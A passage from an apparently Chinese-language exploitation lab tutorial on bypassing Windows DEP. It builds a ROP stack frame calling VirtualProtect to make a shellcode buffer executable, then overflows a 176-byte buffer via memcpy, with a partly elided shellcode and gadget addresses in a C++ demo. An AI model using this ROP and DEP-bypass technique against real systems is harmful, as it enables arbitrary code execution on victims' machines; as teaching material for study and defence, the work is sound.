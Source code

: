 修改内存属性成功时函数返回非 0，修改失败时返回 0。

如果我们能够按照如下参数布置好栈帧的话就可以将 shellcode 所在内存区域设置为可执行模式。

```
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

这里有两个问题需要注意。
- （1）参数中包含 0x00，strcpy 在复制字符串的时候会被截断，所以我们不能攻击 strcpy 函数，本次实验中我们改为攻击 memcpy 函数。
- （2）对 shellcode 所在内存空间起始地址的确定，不同机器之间 shellcode 在内存中的位置可能会有变化，本次实验中我们采用**一种巧妙的栈帧构造方法动态确定 shellcode 所在内存空间起始地址**。
- 上面代码中的0x40 代表一种内存页保护方式，具体可参考：https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants


我们将用如下代码演示如何布置栈帧，并利用 VirtualProtect 函数将 shellcode 所在内存区域设置为可执行状态，进而执行 shellcode。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    "……"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C" //pop eax retn
    "\x0A\x1A\xBF\x7C" //pop pop pop retn
    "\xBA\xD9\xBB\x7C" //修正 EBP
    "\x8B\x17\x84\x7C" //RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\xFF\x00\x00\x00" //修改内存大小
    "\x40\x00\x00\x00" //可读可写可执行内存属性代码
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C" //修改内存属性
    "\x90\x90\x90\x90"
    "\xA4\xDE\xA2\x7C" //jmp esp
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    char str[176];
    memcpy(str,shellcode,420);
}
int main()
{
    HINSTANCEh Inst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```